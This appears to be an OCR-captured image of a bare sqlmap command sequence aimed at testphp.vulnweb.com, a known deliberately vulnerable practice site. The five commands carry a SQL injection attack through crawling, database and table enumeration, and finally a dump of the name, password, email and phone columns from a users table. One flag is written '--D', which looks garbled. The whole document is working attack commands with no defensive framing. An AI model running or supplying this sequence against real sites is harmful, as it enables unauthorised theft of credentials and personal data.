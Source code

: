 sqlmap -u http://www.vulnweb.com/ --crawl=3 --batch

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname --tables --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname -T users --columns --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname -T users -C name,pass,email,phone --dump --batch 


